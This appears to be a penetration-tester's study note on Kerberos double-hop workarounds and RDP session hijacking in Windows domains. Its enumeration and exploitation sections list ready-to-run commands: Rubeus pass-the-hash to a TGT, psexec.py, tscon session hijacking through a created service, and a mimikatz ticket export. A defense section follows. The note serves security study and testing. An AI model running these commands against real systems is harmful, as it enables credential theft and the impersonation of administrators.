

# 20 - Kerberos Double-Hop and RDP Session Abuse

## 1. Executive Summary

Two practical operator problems/opportunities during lateral movement. The **double-hop problem**: when you log on to host B via WinRM/PSRemoting using a password (network logon), B holds **no delegatable TGT**, so a further hop to host C **fails with access denied** — your creds don't propagate. Knowing the workarounds (CredSSP, fresh ticket on B, RBCD, PsExec) keeps the chain moving. **RDP/session abuse** is the flip side: hosts where privileged users are logged on (interactive/RDP) hold their tokens/tickets in memory — **hijack the session** (`tscon` as SYSTEM) or steal their TGT to impersonate that admin without their password.

## 2. Concept Overview

A **network logon** (WinRM default, PtH) doesn't cache the password, so the second hop has no credential to present (single-sign-on can't forward). Fixes: **CredSSP** (delegates the password — but exposes it), request a **TGT directly on B** (Rubeus asktgt with creds/hash → use locally), **RBCD/S4U** to mint a ticket, or just **PsExec/WMI** with explicit creds. **Session abuse**: an interactive session = the user's tickets in LSASS + a hijackable desktop session; SYSTEM can `tscon` into any session.

## 3. Enumeration

```bash
# Who's logged on where (session edges) — pick token-theft targets
crackmapexec smb <hosts> -u user -p pw --loggedon-users
qwinsta /server:<host>            # RDP/console sessions
# am I hitting double-hop? (second hop fails from a WinRM session)
```

## 4. Exploitation

```powershell
# --- Double-hop workarounds ---
# (a) CredSSP (delegates password to B)
Enable-WSManCredSSP -Role Client -DelegateComputer B ; New-PSSession B -Authentication CredSSP -Credential $c
# (b) Get a usable TGT on B (Rubeus) then operate locally
Rubeus.exe asktgt /user:svc /rc4:<nthash> /ptt
# (c) RBCD/S4U (see note 07) or PsExec with explicit creds
psexec.py domain/user:pw@C
```
```cmd
:: --- RDP/session hijack (SYSTEM on the host) ---
query user
sc create sesshijack binpath= "cmd /k tscon 2 /dest:console"   :: take session ID 2
net start sesshijack
:: or steal the logged-on admin's TGT:
mimikatz # sekurlsa::tickets /export   (then ptt)
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Hijacked session / stolen admin TGT extends reach; chain to durable persistence (A-83 notes 14-15) once DA.

## 7. Post-Exploitation / Data Access
- Continued lateral movement past the double-hop wall; impersonation of admins logged on to member servers/jump hosts.

## 8. Defense & Hardening
1. Avoid CredSSP where possible (it exposes passwords); prefer Kerberos-only; restrict where privileged users log on (no DA on member servers/jump boxes → kills session-theft).
2. **Protected Users** group + "cannot be delegated" (limits ticket forwarding/theft); LSA Protection/Credential Guard (resist sekurlsa).
3. Monitor `tscon`/session hijacks, CredSSP delegation config, admin interactive logons on non-Tier-0 hosts.

## 9. Chaining & Related Notes
- RBCD workaround: **[[07 - Resource-Based Constrained Delegation Abuse]]**; ticket reuse: **[[07 - Pass the Ticket (PtT)]]**, **[[06 - Pass the Hash (PtH)]]** (A-36).
- Session creds dumping: **[[20 - Mimikatz — Credential Dumping]]** (A-36). Network RDP/WinRM: **[[20 - RDP (Port 3389) Pentesting]]**, **[[22 - WinRM (Ports 5985-5986) Pentesting]]**.

## 10. Tools
`Rubeus` (asktgt/ptt), `mimikatz` (sekurlsa::tickets), `crackmapexec --loggedon-users`, `psexec.py`, `tscon`/`qwinsta`.
